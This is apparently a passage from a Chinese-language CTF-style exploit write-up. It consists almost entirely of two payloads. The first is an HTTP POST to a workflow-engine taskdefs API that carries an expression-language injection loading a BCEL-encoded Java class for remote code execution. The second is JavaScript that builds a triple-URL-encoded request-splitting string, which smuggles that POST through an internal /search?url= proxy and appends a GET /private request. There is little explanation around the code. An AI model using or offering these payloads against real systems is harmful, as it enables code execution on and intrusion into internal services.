构造

```
POST /api/metadata/taskdefs? HTTP/1.1 
Host: 10.0.64.14:8080 
Content-Type: application/json 
Content-Length:1408 

[{"name":"${'1'.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$oA$U$3d$d5$m$N$3d$8d$80$K3$f8$g$d4$850$P$ba$3b$99dF4n$8c$ae$f0$R$n$e3$c2$8dM$5b$c1Bh$3aM$81$ce$X$cd$da$Nc$5c$f8$B$7e$d4$e8$ad$8e$R$T$ad$a4N$d5$3d$f7$d4$b9$b7$aa$k$fe$df$dd$D$f8$815$DI$cc$Z$c8$a3$90$c4G$b5$7e$d2Q40$85y$j$L$3a$W$Z$S$5b$c2$Xr$9b$nV$ae$fcf$88$ef$f4$cf9C$a6$$$7c$7e0$ec$b5x$d8t$5b$5db$d2$N$e9z$97$fbn$Q$c5$d1$e9$o$c9$7b$ae$f0$Z$K$e5$d3z$c7$j$b9V$d7$f5$dbVC$86$c2oo$w$3b$a3$d1$l$86$k$df$T$ca$o$b5$3b$S$dd$aa$d2$99H$c1$d0$b1db$Z$9f$Z$be$5d$b5$b9$y$5dH$Z$d4$y$eb$97S$fdiW$j$db$a9n85$c7$b6m$a7$f4$fd$b0d$c9$5e$60$85$c2$bb$fcc$a2$84$V$86$d9I$bd$ddk$8f$HR$f4$7d$T$ab0$a8$vU$87$n$3bQ$i$b6$3a$dc$93$M$b9$Ju$3c$f4$a5$e8QW$G$d5$7e$J$f2$e5J$fd$8df$93$y$f95$f7$Y$d6$cb$ef$5c$f3$Vu$U$f6$3d$3e$Y$d0$81L$40I$Z$bdY3t$3d$8e$V$e8$f4$Xjh$60$ea$fa$84$l$u$3a$a3X$a3$b5$f0$e5$l$d8$z$b4$99$d8$Y$f1$93$bfH$d6$bf$8e$91$b8$nU$iid$e9$cb4$98$a4$9bG$820F$ec$U$f1$v$ca$e8$c8$91s$9e$i$d3$94$c9B$7b$q$60$3a$a6$Vd$e2$91$s$f7$5c$adH$93$a9y$Tm$94a$o$o$d2$843Qs$b3O$G$mj$o$3e$C$A$A').newInstance().class}","ownerEmail":"test@example.org","retryCount":"3","timeoutSeconds":"1200","inputKeys":["sourceRequestId","qcElementType"],"outputKeys":["state","skipped","result"],"timeoutPolicy":"TIME_OUT_WF","retryLogic":"FIXED","retryDelaySeconds":"600","responseTimeoutSeconds":"3600","concurrentExecLimit":"100","rateLimitFrequencyInSeconds":"60","rateLimitPerFrequency":"50","isolationgroupId":"myIsolationGroupId"}]
```

URL编码

```
post_payload = '[\u{017b}\u{0122}name\u{0122}:\u{0122}$\u{017b}\u{0127}1\u{0127}.getClass().forName(\u{0127}com.sun.org.apache.bcel.internal.util.ClassLoader\u{0127}).newInstance().loadClass(\u{0127}$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$oA$U$3d$d5$m$N$3d$8d$80$K3$f8$g$d4$850$P$ba$3b$99dF4n$8c$ae$f0$R$n$e3$c2$8dM$5b$c1Bh$3aM$81$ce$X$cd$da$Nc$5c$f8$B$7e$d4$e8$ad$8e$R$T$ad$a4N$d5$3d$f7$d4$b9$b7$aa$k$fe$df$dd$D$f8$815$DI$cc$Z$c8$a3$90$c4G$b5$7e$d2Q40$85y$j$L$3a$W$Z$S$5b$c2$Xr$9b$nV$ae$fcf$88$ef$f4$cf9C$a6$$$7c$7e0$ec$b5x$d8t$5b$5db$d2$N$e9z$97$fbn$Q$c5$d1$e9$o$c9$7b$ae$f0$Z$K$e5$d3z$c7$j$b9V$d7$f5$dbVC$86$c2oo$w$3b$a3$d1$l$86$k$df$T$ca$o$b5$3b$S$dd$aa$d2$99H$c1$d0$b1db$Z$9f$Z$be$5d$b5$b9$y$5dH$Z$d4$y$eb$97S$fdiW$j$db$a9n85$c7$b6m$a7$f4$fd$b0d$c9$5e$60$85$c2$bb$fcc$a2$84$V$86$d9I$bd$ddk$8f$HR$f4$7d$T$ab0$a8$vU$87$n$3bQ$i$b6$3a$dc$93$M$b9$Ju$3c$f4$a5$e8QW$G$d5$7e$J$f2$e5J$fd$8df$93$y$f95$f7$Y$d6$cb$ef$5c$f3$Vu$U$f6$3d$3e$Y$d0$81L$40I$Z$bdY3t$3d$8e$V$e8$f4$Xjh$60$ea$fa$84$l$u$3a$a3X$a3$b5$f0$e5$l$d8$z$b4$99$d8$Y$f1$93$bfH$d6$bf$8e$91$b8$nU$iid$e9$cb4$98$a4$9bG$820F$ec$U$f1$v$ca$e8$c8$91s$9e$i$d3$94$c9B$7b$q$60$3a$a6$Vd$e2$91$s$f7$5c$adH$93$a9y$Tm$94a$o$o$d2$843Qs$b3O$G$mj$o$3e$C$A$A\u{0127}).newInstance().class\u{017d}\u{0122},\u{0122}ownerEmail\u{0122}:\u{0122}test@example.org\u{0122},\u{0122}retryCount\u{0122}:\u{0122}3\u{0122},\u{0122}timeoutSeconds\u{0122}:\u{0122}1200\u{0122},\u{0122}inputKeys\u{0122}:[\u{0122}sourceRequestId\u{0122},\u{0122}qcElementType\u{0122}],\u{0122}outputKeys\u{0122}:[\u{0122}state\u{0122},\u{0122}skipped\u{0122},\u{0122}result\u{0122}],\u{0122}timeoutPolicy\u{0122}:\u{0122}TIME_OUT_WF\u{0122},\u{0122}retryLogic\u{0122}:\u{0122}FIXED\u{0122},\u{0122}retryDelaySeconds\u{0122}:\u{0122}600\u{0122},\u{0122}responseTimeoutSeconds\u{0122}:\u{0122}3600\u{0122},\u{0122}concurrentExecLimit\u{0122}:\u{0122}100\u{0122},\u{0122}rateLimitFrequencyInSeconds\u{0122}:\u{0122}60\u{0122},\u{0122}rateLimitPerFrequency\u{0122}:\u{0122}50\u{0122},\u{0122}isolationgroupId\u{0122}:\u{0122}myIsolationGroupId\u{0122}\u{017d}]'
console.log(encodeURI(encodeURI(encodeURI('http://0.0.0.0:3000/\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}\u{010D}\u{010A}POST\u{0120}/search?url=http://10.0.140.9:8080/api/metadata/taskdefs\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}Content-Type:application/json\u{010D}\u{010A}Content-Length:' + post_payload.length + '\u{010D}\u{010A}\u{010D}\u{010A}' + post_payload+ '\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private'))))
```

